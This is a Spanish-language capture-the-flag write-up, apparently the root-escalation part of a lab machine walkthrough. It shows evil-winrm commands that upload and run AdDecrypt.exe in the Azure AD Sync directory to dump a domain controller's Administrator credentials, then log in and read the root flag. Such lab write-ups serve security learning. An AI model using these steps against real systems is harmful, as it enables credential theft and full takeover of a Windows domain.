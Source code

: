 >También, en el directorio 'Program Files', podemos encontrar el directorio 'Microsoft Azure AD Sync', el cual mediante una vulnerabilidad conocida, podríamos escalar privilegios debido a pertenecer al grupo Azure Admins:

```evil-winrm
cd /
cd PROGRA~1
dir
```

![Pasted image 20240828230110](https://github.com/user-attachments/assets/340ac7af-0183-43e5-b469-a629160d4c32)

>Al ser administradores de Azure y existir este recurso hay una vulnerabilidad para poder listar credenciales del usuario Administrador del DC: https://github.com/VbScrub/AdSyncDecrypt/releases/tag/v1.0

![Pasted image 20240828230553](https://github.com/user-attachments/assets/994fa22c-e692-4df2-a8cd-ea211cb90623)


>Nos descargaremos la release marcada en la imagen:

![Pasted image 20240828230831](https://github.com/user-attachments/assets/ec305557-6721-4568-afe4-d1c97f76cc33)


>Ahora, vamos a dirigirnos al directorio temp y subir los dos archivos del zip:

```evil-winrm
cd "C:\Windows/temp"
upload ruta/al/recurso/mcrypt.dll
upload ruta/al/recurso/AdDecrypt.exe
```

![Pasted image 20240828231039](https://github.com/user-attachments/assets/2ccaf092-843a-412e-9c19-162b7aa3500a)


>Para lanzar el programa deberemos ir al siguiente directorio:

```evil-winrm
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"
```

![Pasted image 20240828231216](https://github.com/user-attachments/assets/c9e58daa-8f0f-4c88-beeb-3bb358429065)


>Ahora vamos a ejecutar el binario para que nos liste las credenciales del usuario Administrador:

```evil-winrm
AdDecrypt.exe -fullSQL
```

![Pasted image 20240828231336](https://github.com/user-attachments/assets/35539b8b-d448-4fca-8b26-81cda3152e4a)


>Por último, al saber las credenciales del usuario administrador, solo nos queda crear otra sesión con **evil-winrm** con las credenciales de dicho usuario y ya tendríamos acceso a la flag de root y comprometido por completo la máquina.

```bash
evil-winrm -i IP -u 'administrator' -p 'password'
```

```evil-winrm
cd ../Desktop
type root.txt
```

![Pasted image 20240828231445](https://github.com/user-attachments/assets/0f88c764-0265-4c23-99b6-297b480928ec)

